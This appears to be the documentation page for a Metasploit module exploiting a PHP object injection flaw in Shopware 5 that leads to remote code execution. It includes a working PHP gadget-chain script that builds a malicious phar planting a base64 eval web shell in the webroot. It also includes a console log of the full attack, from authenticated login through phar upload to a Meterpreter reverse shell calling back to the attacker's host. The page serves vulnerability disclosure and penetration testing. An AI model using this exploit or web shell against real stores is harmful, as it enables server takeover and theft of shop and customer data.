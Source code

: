 ## Background

Shopware 5 is the next generation of open source e-commerce software made in Germany. Based on bleeding edge technologies like Symfony 3, Doctrine 2 & Zend Framework Shopware comes as the perfect platform for your next e-commerce project. Furthermore Shopware 5 provides an event-driven plugin system and an advanced hook system, giving you the ability to customize every part of the platform..

In the createInstanceFromNamedArguments method, a PHP object instantiation vulnerability was discovered by [@KarimOuerghemmi](https://twitter.com/KarimOuerghemmi) of RIPS who rated the bug as a CVSS 3.6 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N) due to the ability of leveraging an XXE primitive. Later on, I bypassed the whitelist patch and found an RCE primitive via PHP object injection. Note that authentication is required to exploit this vulnerability.

This vulnerability is a bypass for CVE-2017-18357 and was tested on Shopware git branches 5.6, 5.5, 5.4, 5.3.

## Vulnerable Application

The following is the exact setup I used to test and analyze the vulnerability:

- Debian GNU/Linux 9 (stretch) x64
- MariaDB latest
- Apache2 w/ mod rewrite / PHP 7.2.15 w/ zip, gd, ctype, curl, dom, hash, iconv, json, session, mbstring, simplexml, xml, pdo_mysql and fileinfo

For installation instructions, please refer to the [Shopware installation guide](https://github.com/shopware/shopware#installation-via-git).

## References

- [https://blog.ripstech.com/2017/shopware-php-object-instantiation-to-blind-xxe/](https://blog.ripstech.com/2017/shopware-php-object-instantiation-to-blind-xxe/)

## Notes

The recommended CVSS score is 7.5 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N).

## POP Chain

In order to pivot from an object instantiation bug to a object injection primitive, we need something worth while deserializing:

```php
<?php

namespace GuzzleHttp\Cookie;

// pop chain
interface ToArrayInterface {}

class SetCookie implements ToArrayInterface {
    private $data;

    public function __construct(array $data = []){
        $this->data = $data;
    }
}

class CookieJar implements ToArrayInterface {
    private $cookies;

    public function setCookie(SetCookie $cookie){
        $this->cookies = array($cookie);
    }
}

class FileCookieJar extends CookieJar {
    private $filename;

    public function __construct($bd_file){
        $this->filename = $bd_file;
        $this->setCookie(new SetCookie(array(
            "Value" => '<?php eval(base64_decode($_SERVER[HTTP_SI])); ?>',
            "Expires" => true,
            "Discard" => false,
        )));
    }
}

$phar = new \Phar('poc.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'test');
$phar->setStub('<?php __HALT_COMPILER(); ? >');
$o = new FileCookieJar("/var/www/html/media/image/si.php");
$phar->setMetadata($o);
$phar->stopBuffering();
?>
```

## Credit

Steven Seeley (mr_me) of Source Incite

## Demo

```
saturn:metasploit-framework mr_me$ ./msfconsole -qr scripts/shopware.rc 
[*] Processing scripts/shopware.rc for ERB directives.
resource (scripts/shopware.rc)> use exploit/multi/http/shopware_createinstancefromnamedarguments_rce
resource (scripts/shopware.rc)> set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
resource (scripts/shopware.rc)> set LHOST 192.168.23.1
LHOST => 192.168.23.1
resource (scripts/shopware.rc)> set RHOSTS 192.168.23.164
RHOSTS => 192.168.23.164
resource (scripts/shopware.rc)> set RPORT 8080
RPORT => 8080
resource (scripts/shopware.rc)> check
[+] 192.168.23.164:8080 - The target is vulnerable.
resource (scripts/shopware.rc)> exploit
[*] Started reverse TCP handler on 192.168.23.1:4444 
[+] Stage 1 - logged in with demo: SHOPWAREBACKEND=kitv5998u4qu2o1sq25v4kvv1j;
[+] Stage 2 - leaked the webroot: /var/www/html
[+] Stage 3 - generated our phar
[+] Stage 4 - leaked the CSRF token: eQ25IftJ3NGKx2WXBG4b00dTeoA8Pj
[+] Stage 5 - uploaded phar
[+] Stage 6 - leaked phar location: media/image/6f/fc/7f/mlofhujx.jpg
[+] Stage 7 - triggered object instantiation!
[*] Sending stage (38247 bytes) to 192.168.23.174
[*] Meterpreter session 1 opened (192.168.23.1:4444 -> 192.168.23.174:33254) at 2019-05-09 14:44:46 -0500
[!] This exploit may require manual cleanup of 'qdvtvgqu.php' on the target
[!] This exploit may require manual cleanup of 'image/6f/fc/7f/mlofhujx.jpg' on the target

meterpreter > 
[+] Deleted qdvtvgqu.php
[+] Deleted image/6f/fc/7f/mlofhujx.jpg

meterpreter > sysinfo
Computer    : 45835d649528
OS          : Linux 45835d649528 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64
Meterpreter : php/linux
meterpreter > 
```